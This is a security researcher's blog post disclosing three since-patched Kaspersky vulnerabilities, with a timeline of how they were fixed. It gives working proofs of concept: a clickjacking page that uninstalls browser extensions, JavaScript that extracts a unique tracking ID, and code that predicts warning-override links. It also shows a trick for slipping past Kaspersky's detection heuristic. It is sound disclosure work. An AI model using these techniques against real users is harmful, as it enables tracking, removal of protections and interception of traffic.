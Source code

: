 ```yaml
---
title: "Assorted Kaspersky vulnerabilities"
date: 2019-11-27T08:39:29+01:00
description: More vulnerabilities in Kaspersky software: websites removing Chrome extensions, user tracking with unique identifiers and predictable links.
image: kaspersky-shattered.jpeg
categories:
  - kaspersky
  - security
  - privacy
---
```


This will hopefully be my last article on vulnerabilities in Kaspersky products for a while. With one article on [vulnerabilities introduced by interception of HTTPS connections](/2019/08/19/kaspersky-in-the-middle-what-could-possibly-go-wrong/) and another on [exposing internal APIs to web pages](/2019/11/25/kaspersky-the-art-of-keeping-your-keys-under-the-door-mat/), what's left in my queue are three vulnerabilities without any relation to each other.

{{< img src="kaspersky-shattered.jpeg" width="600" alt="Kaspersky functionality shattered" />}}

{{toc}}

## Summary of the findings

The first vulnerability affects Kaspersky Protection browser extension for Google Chrome (not its Firefox counterpart) which is installed automatically by Kaspersky Internet Security. Arbitrary websites can trick it into uninstalling Chrome browser extensions ([CVE-2019-15684](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-15684)). In particular, they can uninstall Kaspersky Protection itself, which will happen silently. Uninstalling other browser extensions will make Google Chrome display an additional confirmation prompt, so social engineering is required to make the user accept it. While this prompt lowers the severity of the issue considerably, the way it has been addressed by Kaspersky is also quite remarkable. The initial attempt to fix this issue took eight months, yet the issue could be reproduced again after making a trivial change.

The second vulnerability is very similar to the one [demonstrated by Heise Online earlier this year](https://www.heise.de/ct/artikel/Kasper-Spy-Kaspersky-Anti-Virus-puts-users-at-risk-4496138.html). While Kaspersky addressed their report in a fairly thorough way and most values exposed to the web by their application were made unsuitable for tracking, one value was overlooked. I could demonstrate how arbitrary websites can retrieve a user identifier which is unique to the specific installation of Kaspersky Internet Security ([CVE-2019-15687](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-15687)). This identifier is shared across all browsers and is unaffected by protection mechanisms such as Private Browsing.

Finally, the last issue affects links used by special web pages produced by Kaspersky Internet Security, such as the invalid certificate or phishing warning pages. These links will trigger actions in the application, for example adding an exception for an invalid certificate, overriding a phishing warning or disabling Safe Money protection on a banking site. I could find a way for websites to retrieve the value of one such link and from it to predict the value assigned to future links ([CVE-2019-15688](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-15688)). This allows websites to trigger actions from special pages programmatically, without having to trick the user into clicking them via [clickjacking](https://en.wikipedia.org/wiki/Clickjacking) or social engineering.

## Uninstalling any browser extension

### The issue

Kaspersky Internet Security will install its extensions in all your browsers, something that is supposed to make your browsing safer. These extensions have quite a bit functionality. One particular feature caught my eye: the ability to uninstall other browser extensions, for some reason only present in the extension for Google Chrome but not in its Firefox counterpart. Presumably, this is used to remove known malicious extensions.

{{< highlight js >}}
function handleDeletePlugin(request, sender, sendResponse) {
    chrome.management.uninstall(request.id, function () {
        if (chrome.runtime.lastError)
            trySendResponse(sendResponse, { result: -1, errorText: chrome.runtime.lastError.message });
        else
            trySendResponse(sendResponse, { result: 1 });
    });
}
{{< /highlight >}}

This code is triggered by the `ext_remover.html` page, whenever the element with the ID `dbutton` is clicked. That's usually the point where I would stop investigating this, extension pages being out of reach for websites. But this particular page is listed under [web_accessible_resources](https://developer.mozilla.org/en-US/docs/Mozilla/Add-ons/WebExtensions/manifest.json/web_accessible_resources) in the extension manifest. This means that any website is allowed to load this page in a frame.

Not just that, this page (like any pages in this extension meant to be displayed in an injected frame) receives its data via `window.postMessage()` rather than using extension-specific messaging mechanisms. MDN has something to say on the [security concerns](https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage#Security_concerns) here:

> If you do expect to receive messages from other sites, always verify the sender's identity using the origin and possibly source properties. Any window (including, for example, `http://evil.example.com`) can send a message to any other window, and you have no guarantees that an unknown sender will not send malicious messages.

As you can guess, no validation of the sender's identity is performed here. So any website can tell that page which extension it is supposed to remove and what text it should display. Oh, and CSS styles are also determined by the embedding page, via `cssSrc` URL parameter. But just in case that the user won't click the button voluntarily, it's possible to use [clickjacking](https://en.wikipedia.org/wiki/Clickjacking) and trick them into doing that.

### The exploit

Here is the complete proof-of-concept page, silently removing Kaspersky Protection extension if the user clicks anywhere on the page.

{{< highlight html >}}
<html>
  <head>
    <script>
      window.onload = function(event)
      {
        let frame = document.getElementById("frame");

        frame.contentWindow.postMessage(JSON.stringify({
          command: "init",
          data: JSON.stringify({
            id: "amkpcclbbgegoafihnpgomddadjhcadd"
          })
        }), "*");

        window.addEventListener("mousemove", event =>
        {
          frame.style.left = (event.clientX - frame.offsetWidth / 2) + "px";
          frame.style.top = (event.clientY - frame.offsetHeight / 2) + "px";
        });
      };
    </script>
  </head>
  <body style="overflow: hidden;">
    <iframe id="frame"
      style="opacity: 0.0001; width: 100px; height: 100px; position: absolute" frameborder="0"
      src="chrome-extension://amkpcclbbgegoafihnpgomddadjhcadd/background/ext_remover.html?cssSrc=data:text/css,%2523dbutton{position:fixed;left:0;top:0;width:100%2525;bottom:0}">
    </iframe>
    <p>
      Click anywhere on this page to get surprised!
    </p>
  </body>
</html>
{{< /highlight >}}

The `mousemove` event handler makes sure that the invisible frame is always placed below your mouse pointer. And the CSS styles provided in the `cssSrc` parameter ensure that the button fills out all the space within the frame. Any click will inevitably trigger the uninstall action. By replacing the `id` parameter it would be possible to remove other extensions as well, not just Kaspersky Protection itself. Luckily, Chrome won't allow extensions to do that silently but will ask for an additional confirmation.

{{< img src="removal_prompt.png" alt="Prompt displayed by the browser when Kaspersky Protection tries to remove another extension" width="348" />}}

So the attackers would need to social engineer the user into believing that this extension actually needs to be removed, e.g. because it is malicious. Normally a rather tricky task, but Kaspersky lending their name for that makes it much easier.

### Is this fixed?

In July 2019 Kaspersky notified me about this issue being resolved. They didn't ask me to verify, and so I didn't. However, when writing this blog post, I wanted to see what their fix looked like. So I got the new browser extension from Kaspersky Internet Security 2020, unpacked it and went through the source code. Yet this approach didn't get me anywhere, the logic looked exactly the same as the old one.

So I tried to see the extension in action. I opened my proof-of-concept page and was greeted with this message:

{{< img src="blocked.png" alt="Kaspersky blocking proof-of-concept page as HEUR:Exploit.Script.Generic" width="405" />}}

I figured that adding a heuristic for my proof-of-concept is a precaution, maybe a stopgap solution for older versions which didn't receive the proper fix yet. The heuristic appeared to look for the strings `contentWindow`, `postMessage` and `background/ext_remover.html` in the page source and would only fire if all of them were found. Of course, that's trivial to circumvent, e.g. by turning a slash into a backslash, so that it is `background\ext_remover.html`.

Ok, the page loads but the frame doesn't. Turns out, extension ID changed in the new version, that one is easily updated. Clicking the page... What? The extension is gone? Does it mean that this heuristic actually _is_ their fix? My brain just exploded.

When I notified Kaspersky they immediately confirmed my findings. They also promised that they would be investigating how this could have happened. While it's unlikely that anybody will ever learn the results of their investigation, I just cannot help thinking that somebody somewhere within their organization must have thought that masking the issue with a heuristic would be sufficient to make the problem go away. And their peers didn't question this conclusion.

### The real fix

A few weeks ago Kaspersky again notified me about the issue being resolved. This time the fix was obvious from the source code:

{{< highlight js >}}
if (origin !== "http://touch.kaspersky.com")
  return;
{{< /highlight >}}

The origin check here makes sure that websites normally won't be able to exploit this vulnerability. Unless somebody manages to inject JavaScript code into the `touch.kaspersky.com` domain. Which is easier than it sounds, given that we are talking about an unencrypted connection -- note `http:` rather than `https:` being expected here. According to Kaspersky, this part is fixed as well now and the patch is currently being rolled out.

## Tracking users with Kaspersky

### The issue

In August this year, Heise Online [demonstrated](https://www.heise.de/ct/artikel/Kasper-Spy-Kaspersky-Anti-Virus-puts-users-at-risk-4496138.html) how Kaspersky software provides websites with unique user identifiers which can be abused for tracking -- regardless of Private Browsing mode and even across different browsers. What I noticed in my previous research: Kaspersky software generates a number of different user-specific identifiers, many within the reach of web pages. I took a look and all of these identifiers were either turned into constants (identical across all installations) or stay only valid for a single session.

That is, almost all of them. The `main.js` script that Kaspersky Internet Security injects into web pages starts like this:

{{< highlight js >}}
var KasperskyLab = {
  SIGNATURE: "427A2927-6E16-014D-99C8-EDF9A859272B",
  CSP_NONCE: "CAD1B86EE5BAB74FB865E59BE19D9AE9",
  PLUGINS_LIST: "",
  PREFIX: "http://gc.kis.v2.scr.kaspersky-labs.com/",
  INJECT_ID: "FD126C42-EBFA-4E12-B309-BB3FDD723AC1",
  WORK_IDENTIFIERS: "427A2927-6E16-014D,921A7D4E-AD84-244A,570FF4E7-B048-1D4E,979DF469-AA8E-C049"
};
{{< /highlight >}}

`SIGNATURE` and `CSP_NONCE` change every time Kaspersky Internet Security is restarted, `INJECT_ID` is the same across all installations. But what about `WORK_IDENTIFIERS`? This key contains four values. The first one is clearly a substring of `SIGNATURE`, meaning that it is largely useless for tracking purposes. But the other three turned out to be installation-specific values.

How would a website get hold of the `WORK_IDENTIFIERS` value? It cannot just download `main.js`, this is prohibited by the same-origin policy. But there is actually an easier way, thanks to how this script processes it:

{{< highlight js >}}
if (ns.WORK_IDENTIFIERS)
{
  var workIdentifiers = ns.WORK_IDENTIFIERS.split(",");
  for (var i = 0; i < workIdentifiers.length; ++i)
  {
    if (window[workIdentifiers[i]])
    {
      ns.AddRunner = function(){};
      return;
    }
    window[workIdentifiers[i]] = true;
  }
}
{{< /highlight >}}

Explanation: every value within `WORK_IDENTIFIERS` ends up as a property on the `window` object (a.k.a. global variable in JavaScript), apparently to guard against multiple executions of this script. And that's where web pages can access them as well.

### The exploit

The piece of code below looks up all properties containing `-` in their name. This is sufficient to remove all default properties, only the properties added by Kaspersky will be left.

{{< highlight js >}}
let keys = Object.keys(window).filter(k => k.includes("-")).slice(1);
if (keys.length)
  alert("Your Kaspersky ID: " + keys.join(","));
{{< /highlight >}}

For reasons of simplicity this abuses an implementation detail in Chrome's and Firefox's JavaScript engines. While theoretically the order in which properties are returned by `Object.keys()` is undefined, in this particular scenario they will be returned in the order in which they were added. This makes it easier to remove the first property which isn't suitable for purposes of user tracking.

{{< img src="tracking_id.png" alt="Tracking ID displayed by a website, based on Kaspersky's data" width="432" />}}

One more note: even if Kaspersky Internet Security is installed, its script might not be injected into web pages. That is especially the case if Kaspersky Protect browser extension is installed. But that doesn't mean that this issue isn't exploitable then. The website can just load this script by itself, its location being predictable as of Kaspersky Internet Security 2020.

### The fix

As of Kaspersky Internet Security 2020 Patch E (presumably also Kaspersky Internet Security 2019 Patch I which I didn't test) the code processing `WORK_IDENTIFIERS` is still part of the script, but the value itself is gone. So no properties are being set on the `window` object.

## Controlling Kaspersky functionality with links

### The issue

Kaspersky software breaking up all HTTPS connections in order to inspect the contents was already topic of a [previous article](/2019/08/19/kaspersky-in-the-middle-what-could-possibly-go-wrong/). There I mentioned an implication: if you break up HTTPS connections, you also become responsible for implementing warnings on invalid certificates as such. Here what this warning looks like then:

{{< img src="certwarning_kaspersky.png" alt="Certificate warning page when Kaspersky is installed" width="750" />}}

I've already demonstrated how the link titled "I understand the risks" here is [susceptible to clickjacking attacks](/2019/08/19/kaspersky-in-the-middle-what-could-possibly-go-wrong/#using-clickjacking-to-override-certificate-warnings), websites can make the user click it without realizing what they are clicking. However, if you look at how this link works, an even bigger issue becomes apparent.

If you (like me) expected some JavaScript code at work here, connecting to the Kaspersky application in an elaborate fashion: no, nothing like that here. In fact, it's a plain link of the form `https://93.184.216.34/?1568807468_kis_cup_01234567_89AB_CDEF_0123_456789ABCDEF_`. Here, `https://93.184.216.34/` is the website that the certificate warning applies to. It never receives this request however, the request being processed by the local Kaspersky application instead -- if the magic parameter is found valid. The part starting with `_kis_cup_` is identical for all links on this machine. The only part changing is `1568807468`. What is it? If you guessed that it is a Unix timestamp, then you are mostly correct. But it doesn't indicate the time when the link was generated, it rather appears to be related to the time when the Kaspersky application started. And it is incremented with each new link generated.

### The exploit

Altogether, this means that you only need to see one link and you will be able to guess what future links will look like. But how to get your hands on this link, with the same-origin policy in place? Right, you need to access a certificate warning page for your own site. My proof-of-concept server would serve up two different SSL certificates: first a valid one, allowing the proof-of-concept page to load, then an invalid one, making sure that the proof-of-concept page downloading itself will receive the Kaspersky certificate warning page. So if we hijacked the traffic to google.com but don't want the user to see a certificate warning page, we could do something like this:

{{< highlight js >}}
fetch(location.href).then(response =>
{
  return response.text();
}).then(text =>
{
  let match = /url-falsepositive.*?href="([^"]+)/.exec(text);
  let url = match[1];
  url = url.replace(/\?\d+/, match =>
  {
    return "?" + (parseInt(match.substr(1), 10) + 2);
  }).replace(/^[^?]+/, "https://www.google.com/");

  fetch("https://www.google.com/").catch(e =>
  {
    location.href = url;
  });
});
{{< /highlight >}}

After downloading the certificate warning page for our own website, we extract the override link. We replace the host part of that link to make it point to google.com and increase the "timestamp" by two (there are two links on each certificate warning page). After that we trigger downloading a page from google.com -- we won't get to see the response of course, but Kaspersky will generate a certificate warning page here and our override link becomes valid. Loading it then will trigger a generic warning from Kaspersky:

{{< img src="override_warning.png" alt="Warning displayed by Kaspersky when overriding a certificate" width="456" />}}

If we can social engineer the user into accepting this warning, we'll have successfully overridden the certificate for google.com and can now do our evil thing with it. The [previous article](/2019/08/19/kaspersky-in-the-middle-what-could-possibly-go-wrong/#using-clickjacking-to-override-certificate-warnings) already demonstrated what this social engineering might look like.

And this isn't the only thing we can do, similar links are used in other places as well. For example, Kaspersky Internet Security has a feature called Safe Money which makes sure that banking websites are opened in a separate browser profile. So when you first open a banking site you will see a prompt like the one below.

{{< img src="safe_money.png" alt="Safe Money prompt asking the user whether to open the site in a protected browser" width="750" />}}

How these buttons work? You guessed it, they are using links exactly like the ones on certificate warning pages. And it's the same incremental counter as well. So using the same approach as above we could also disable Safe Money on banking websites, and this functionality won't even prompt for additional confirmation.

There is also phishing protection functionality in Kaspersky Internet Security. So if you happen on a phishing page, you will see a Kaspersky warning instead. The override links there look like `http://touch.kaspersky.com/kis_cup_01234567_89AB_CDEF_0123_456789ABCDEF_1568807468`. That's actually the same values as with the certificate warning page, merely rearranged. So an arbitrary website will also be able to override these phishing warning pages.

I'm going to stop here, don't want to bore you will all the features in this application relying on this kind of links.

### The fix

Kaspersky Internet Security 2019 Patch F replaced the timestamp in the links by a randomly generated GUID. This makes sure that the links aren't predictable, so the attack no longer works. It doesn't fully address the clickjacking scenario however, which is probably why Kaspersky Internet Security 2020 for a while stopped displaying certificate warning pages altogether. Instead, there was a message displayed outside the browser. Probably a good choice, but this change was reverted for some reason.

Interestingly, I've since looked at Avast/AVG products which also break up HTTPS connections. These managed to do it without replacing browser's certificate warning pages however. Their approach: don't touch connections with invalid certificates, let the browser reject them instead. Also, when replacing valid certificates by their own, keep certificate subject unchanged so that name mismatches will be flagged by the browser. Maybe Kaspersky could consider that approach as well?

## Timeline

* 2018-12-18: Sent report via Kaspersky bug bounty program: [Predictable links on certificate warning pages.](https://hackerone.com/reports/469372)
* 2018-12-21: Sent report via Kaspersky bug bounty program: [Websites can trigger uninstallation of browser extensions.](https://hackerone.com/reports/470519)
* 2018-12-24: Kaspersky acknowledges the issues and says that they are working on fixing them.
* 2019-07-29: Kaspersky notifies me about these two issues being fixed in KIS 2020.
* 2019-07-29: Requested disclosure of my reports.
* 2019-08-05: Kaspersky denies disclosure, citing that users need time to update.
* 2019-08-19: Notified Kaspersky that I plan to publish a blog post on these issues on 2019-11-25.
* 2019-08-19: Sent report via email: Exposure of unique user ID. Disclosure deadline: 2019-11-25.
* 2019-08-19: Kaspersky confirms receiving the new report.
* 2019-09-18: Sent report via email: Websites can still trigger uninstallation of browser extensions. Disclosure deadline is still 2019-11-25, given how trivial it is to modify the original proof of concept.
* 2019-09-19: Kaspersky confirms that the vulnerability still exists and acknowledges the deadline.
* 2019-11-07: Kaspersky notifies me about the remaining issues being fixed in 2019 (Patch I) as well as 2020 (Patch E) family of products.
* 2019-11-15: Evaluated the fixes and notified Kaspersky about extension uninstall being still possible to trigger via Man-in-the-Middle attack.
* 2019-11-22: Kaspersky notifies me about the remaining attack surface being removed in the patch supposed to become available by 2019-11-28.
